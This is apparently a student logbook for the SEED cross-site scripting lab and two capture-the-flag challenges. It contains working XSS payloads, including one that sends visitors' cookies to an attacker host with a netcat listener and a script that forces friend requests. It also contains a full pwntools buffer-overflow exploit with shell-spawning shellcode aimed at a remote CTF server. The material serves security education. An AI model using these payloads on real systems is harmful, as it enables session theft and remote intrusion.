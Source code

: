 # Cross-Site Scripting (XSS) Attack Lab

## Task 1

- Logged in as Alice, since their credentials are displayed in the lab guide (username: alice, password: seedalice).
- Clicked the *Edit Profile* button and set the Brief Description with the string:
`<script>alert('hello')</script>`
- After visiting Alice's profile page, the user is surprised by a pop-up, meaning that the Javascript code was executed.

![Task 1 screenshot](images/Lab5Task1.png)

## Task 2

- The procedure is similar to the previous task, but the content of the pop-up is now replaced by the user's cookies, stored in the variable `document.cookie`

![Task 2 screenshot](images/Lab5Task2.png)

## Task 3

- Similarly to the previous tasks, edit the Brief Description of Alice's profile, but this time its content will be the string:
`<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>');</script>`
- This way, when some user visits Alice's profile, an HTTP GET request will be sent to the attacker's machine.
- The attacker's machine must be listening on the port 5555, done by executing the following command:
`nc -lknv 5555`
- When the HTTP GET request is received, the cookies of the user that visited Alice's profile become available to the attacker.

![Task 3 screenshot](images/Lab5Task3.png)

## Task 4

- Log in as Alice and manually add Samy as a friend, by visiting his profile page and clicking on the button *Add friend*.
- Check the HTTP request of that action by using a Firefox add-on called HTTP Header Live.
- Based on the request URL, change the value of the variable `sendurl`:
`var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token`
- Log in as Samy using the given credentials (username: samy, password: seedsamy).
- Edit his profile by inserting the following script in the About Me section, using the *Text mode*, which is done by clicking on the button *Edit HTML*:

```javascript
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        //Construct the HTTP request to add Samy as a friend
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

- Log in as Boby, using the given credentials (username: boby, password: seedboby) and visit Samy's profile. By refreshing the page, it's possible to see that Boby instantly became Samy's friend.

- Question 1 answer:
    - Lines ➀ and ➁ are stored as variables given those are dynamic security tokens unique to a user that enters Samy's profile page, which are required security parameters to add Samy as a friend.
- Question 2 answer:
    - We were unable to launch an attack in the *Editor Mode*, given that it sanitizes the input of some characters, such as "<" or ">" signs, making Javascript insertion impossible.

![Task 4 screenshot](images/Lab5Task4.png)

# Capture The Flag

## Challenge 1:

- Do a submission of an arbitrary justification and noticed that the page of the request has two buttons and one of them is called "Give the flag".
- By analyzing the HTML code of the page, we conclude that this button id is "giveflag".
- As the name says, the action of this button returns the flag of this challenge, so all we need to do is to click on it.
- This can be done by injecting Javascript code by entering the following string in the justification field:
```Javascript
<script>document.getElementById("giveflag").click()<script>
```
- Submit 1st flag ("**flag{8620558bac7f21c09ec60e0bcafc2bb1}**")

## Challenge 2:

- Downloaded the files provided for this CTF.
- Executed the `checksec program` command to analyse the program compilation protections and noticed the following characteristics:
    - No RELRO
    - No canary found
    - NX disabled
    - PIE enabled
    - No RPATH
    - No RUNPATH
- The line 12 of the code has a vulnerability, since the function *gets* keeps reading the input until it finds a newline/EOF character, independentely of the size of the variable where the program stores that input. So, by introducing an input larger than the buffer size (which in this case is 100 bytes), it continues writing past the end and into memory it doesn't own.
- We must fill the buffer with the shellcode that allows us to get access to the shell. We used the shellcode given in the Buffer Overflow Lab (LOGBOOK 5), for a 32-bit system.
- We also used the Python scripts given in that lab, adjusting the values to this new problem.
- First, we tested the exploit locally, using the executable `program`.
- The buffer address is printed as soon as we run the executable, and we must get its value in runtime, since it changes every time the program runs.
- To achieve that, we used the function recvuntil() that reads bytes from the console, to isolate the address value.
- Then, we needed to convert this value to a string, and then to hexadecimal using the function int() with the second argument as 16, which is the base.
- We set the offset to 108, which is the number of positions after the buffer address where the return address is located. We found this number using gdb to dump the memory.
- Finally, using the function sendline(), we are able to send the buffer with the shellcode to the process.
- After success on the local experiment, we use the function remote() to connect to the server where the exploit will be applied, and we obtain the flag for this challenge.
- The final version of the Python  script used is the following:

```python
#!/usr/bin/python3

from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4001)


### Falta o encoding?
a=r.recvuntil(b" is ")
a=r.recvuntil(b".", drop=True)
a=a.decode('utf-8')
a=int(a, 16)
print(a)


shellcode= (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP’s
content = bytearray(0x90 for i in range(200))
##################################################################
# Put the shellcode somewhere in the payload
start = 0 # ✩ Need to change ✩
content[start:start + len(shellcode)] = shellcode
# Decide the return address value
# and put it somewhere in the payload
ret = a # ✩ Need to change ✩


offset = 108 # ✩ Need to change ✩
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')

r.sendline(content)
r.interactive()
##################################################################
```
- Submit 2nd flag
